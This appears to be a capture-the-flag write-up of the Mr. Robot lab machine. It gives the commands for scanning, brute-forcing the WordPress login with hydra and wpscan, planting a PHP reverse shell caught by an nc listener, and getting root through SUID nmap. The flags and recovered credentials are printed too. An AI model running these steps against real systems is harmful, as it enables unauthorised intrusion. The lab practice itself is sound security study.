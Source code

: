 We begin enumeration by scanning our net work with nmap
```
nmap -sV -sP 10.0.0.93/24
```
We find the target ip and do another nmap scan on the target box to find open ports:

```
nmap -sV -sC -vv -T4 10.0.0.48
```
We then enumerate with gobuster and see if there is a robots file and we find the first key:

key1: 073403c8a58a1f80d943455fb30724b9

We also find what looks to be a password list listed in the robots.txt file.

```
gobuster dir -u http://10.0.0.48/ -w=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Continuing with enumeration we begin to look at the websites looking for user credentials and any clues.
We find a wordpress admin site and decide to use ```burpsuite``` to intercept the request. Since this is a machine based on the series mr.robot we are going to use hydra and combine the name ```Elliot``` who is the main character of the series and attempt to brute force the wordpress log in form. We find the username and password for the wp site.
```Elliot ER28-0652```. We sorted the list before doing a wp-scan: ```sort fsocity.dic| uniq > fsoc.dic ```.
commands used: 
```
hydra -l fsocity.dic -P 123  10.0.0.48 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username"
```

```
 wpscan -t 10000 --url http://10.0.0.48 --usernames Elliot --passwords fsoc.dic
```
Once in the site we go to appeareans >> edit & and the php revershell to the 404.php template open up a ncat listener on port 4444 ```nc -nlvp 4444``` and gain acces as daemon of which we then find the robot user and a file with an md5 hash that is theu sers password and log in as that user.

key 2: 822c73956184f694993bede3eb39f959

We then run the command:
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
to find weak binaries and found nmap installed on the server.

when then ran ```nmap --interactive``` ```!sh``` and gained a root shell
key3: 04787ddef27c3dee1ee161b21670b4e4

system has been rooted action is no longer required.
